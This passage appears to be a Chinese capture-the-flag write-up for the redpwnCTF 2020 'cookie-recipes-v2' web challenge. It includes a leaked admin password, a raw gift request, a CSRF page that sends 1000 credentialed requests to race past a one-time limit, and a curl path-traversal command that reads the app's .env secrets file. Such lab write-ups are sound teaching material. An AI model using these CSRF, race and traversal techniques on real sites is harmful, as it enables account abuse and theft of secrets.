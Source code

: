 要求是管理员，在送的时候需要输入管理员的密码，且只能一次队伍送一次，我们可以从

```
https://cookie-recipes-v2.2020.redpwnc.tf/api/userInfo?id=0
```

得到管理员密码，尝试登陆显示`IP address not allowed`,那只能通过url输入的地方尝试csrf，构造数据包应该是这样

```
POST /api/gift?id=1141126652894855019 HTTP/1.1
Host: cookie-recipes-v2.2020.redpwnc.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain
Content-Length: 47
Connection: close

`{`"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"`}`

```

id从`/api/userInfo`获取，需要发送json，从老外wp上学一手用xml构造csrf

```
&lt;html&gt;&lt;script&gt;
    async function jsonreq() `{`
        var xhr = new XMLHttpRequest()
        xhr.open("POST","https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=1141126652894855019", true);
        xhr.withCredentials = true;
        xhr.setRequestHeader("Content-Type","text/plain");
        xhr.send(JSON.stringify(`{`"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"`}`));
    `}`
    for (var i = 0; i &lt; 1000; i++) `{`
        jsonreq();
    `}`
&lt;/script&gt;&lt;/html&gt;
```

因为只能送一次积分，所以重复发尝试绕过这个限制。把这个页面放自己服务器，可以用python起服务，直接访问

```
python -m SimpleHTTPServer 4040
```

提交 `ip:4040/csrf.html`,发过去后查看自己的账号有足够的积分，买flag美滋滋

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/07/03/NLg7nJ.png)

ps.这题还有非预期，直接跨目录读/app/.env

```
curl --path-as-is https://cookie-recipes-v2.2020.redpwnc.tf/../../../../app/.env
```
